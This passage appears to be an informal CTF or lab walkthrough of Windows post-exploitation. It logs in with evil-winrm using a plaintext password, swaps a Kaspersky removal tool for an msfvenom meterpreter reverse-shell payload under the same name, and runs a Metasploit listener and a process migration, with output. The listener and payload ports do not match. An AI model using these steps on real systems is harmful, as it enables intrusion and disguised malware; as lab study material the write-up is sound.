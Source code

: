 NOW lets use evil-WinRM and we get in
```bash
evil-winrm  -i 10.10.233.118 -u 'ewalters' -p 'Ewwalter@12345e'
```

Output
```output
*Evil-WinRM* PS C:\Users\ewalters\Documents> whoami
lab\ewalters
*Evil-WinRM* PS C:\Users\ewalters\Documents> 
```


so we  move to the AV Test folder
```
*Evil-WinRM* PS C:\AVTest> mv KasperskyRemovalTool.exe   KasperskyRemovalTool3.exe"

```

than we make our own meterperter shell
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.7.96 LPORT=5555 -f exe >  KasperskyRemovalTool.exe   
```
and we have to start msfconsole
```bash
msfconsole -q -x "use multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 10.8.7.96; set LPORT 443; exploit"

```


we also run python server

```bash
python3 -m http.server 8001 
```


so we run it 

```bash
./KasperskyRemovalTool.exe
```

but the session keep dying
```shell
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.8.7.96:443 
[*] 10.10.216.246 - Meterpreter session 4 closed.  Reason: Died

```

in order to sort to this problem we have to migrate
```bash
run post/windows/manage/migrate
```
output
```bash
[*] Running module against LABDC
[*] Current server process: KasperskyRemovalTool.exe (4368)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 1136
[+] Successfully migrated into process 1136
meterpreter > whoami


```
